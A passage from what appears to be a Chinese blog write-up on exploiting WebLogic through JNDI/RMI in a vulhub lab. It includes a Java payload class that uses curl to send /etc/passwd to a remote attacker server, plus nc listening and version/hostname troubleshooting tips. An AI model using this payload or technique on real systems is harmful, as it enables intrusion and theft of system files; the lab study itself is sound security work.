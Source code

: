 ```
```
同样的，修改rmi地址为我们自己的服务器。

由于vulhub搭建的Weblogic环境是基于jdk 1.6.0_45版本的，所以我们还得使用jdk 1.6重新编译项目，服务端同样也是

再由于目标运行在linux上，无法弹计算器，所以我们还得改Exploit类的命令部分，改成可以回显的或者反弹shell的类，这里仅供参考
```
public class Rev {
    public Rev(){
        try{
            Runtime.getRuntime().exec("curl -F value=@/etc/passwd remote_server:3388");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        Rev e = new Rev();
    }
}
```
VPS上nc监听3388端口，执行成功的话会接收到目标主机的passwd信息

同样的，先开启JNDI和http服务，还得再监听3388，然后发送PoC

![rev](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/fjakh)
成功接收到信息，利用成功。




### 0x05 总结
简单总结一下这个利用方式，有几个需要注意的点

- java版本问题。编译恶意类的java版本，生成jar包的版本，目标运行的java版本需要一致，这在一定程度上限制了通用性

	再一个，java版本不能高于7，因为在jdk1.8中做了限制，需要设置`trustURLCodebase`为`true`

- 需要指定`rmi.server.hostname`，在这里坑了好久，一开始以为是ipv6的问题，因为在vps上绑定jndi服务后监听的是tcp6，在github上也有人提了这个问题；后来发现本地执行客户端后与远程主机是建立连接的，却卡在了这个连接上，没有消息通信，说明tcp通道是可以建立的，应该是别的地方有问题。执行后jndi服务器去找了127.0.0.1，一开始以为是本地地址，测试了一番之后发现原来是vps的127.0.0.1，说明已经执行到远程类的部分了，只不过解析地址的时候出现了错误，后来在[stackoverflow](https://stackoverflow.com/questions/15685686/java-rmi-connectexception-connection-refused-to-host-127-0-1-1)和[这里](http://kbase.zohocorp.com/kbase/Web_NMS/Server_Framework/file_112641.html)找到了答案。


参考：
https://www.one-tab.com/page/rruKb03ATCuYb59FcLA2HQ

<script>pangu.spacingPage();</script>







